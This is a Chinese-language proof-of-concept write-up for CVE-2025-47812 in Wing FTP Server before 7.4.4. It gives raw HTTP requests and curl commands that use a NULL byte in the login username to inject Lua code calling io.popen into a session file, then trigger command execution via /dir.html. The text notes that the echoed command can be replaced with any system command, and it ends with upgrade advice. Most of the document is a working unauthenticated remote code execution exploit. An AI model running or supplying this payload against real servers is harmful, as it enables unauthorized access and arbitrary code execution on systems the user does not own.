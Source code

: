 ### 漏洞描述

攻击者可通过在用户名中注入NULL字节绕过身份验证。无需有效凭证，攻击者仅需附加NULL字节，即可通过身份验证并获取有效会话，进而执行任意代码

### 影响版本

Wing FTP Server < 7.4.4

### 漏洞状态

已确认

### POC利用流程

#### 第一步

利用阶段：注入恶意 Lua 代码到 session 文件

说明：

username 参数中利用了 NULL 字节（%00）和 Lua 代码注入。

cmd 可替换为任意系统命令。

```yaml
POST /loginok.html HTTP/1.1
Host: xxx.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

username=anonymous%00]]%0dlocal+h+%3d+io.popen("echo CVE-2025-47812")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--&password=
```

#### 第二步

访问 session 文件，触发命令执行

```yaml
GET /dir.html HTTP/1.1
Host: xxxxiaoai.com
```

如果漏洞存在，/dir.html 的响应体中会包含 CVE-2025-47812 字样

### curl POC 示例

```yaml
curl -i -s -k -X $'POST' \
    -H $'Host: <目标IP或域名>' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=anonymous%00]]\rlocal h = io.popen("echo CVE-2025-47812")\rlocal r = h:read("*a")\rh:close()\rprint(r)\r--&password=' \
    'http://<目标IP或域名>/loginok.html'

curl -i -s -k -X $'GET' \
    -H $'Host: <目标IP或域名>' \
    'http://<目标IP或域名>/dir.html'
```

### 修复建议

立即升级至 Wing FTP Server 7.4.4 或更高版本。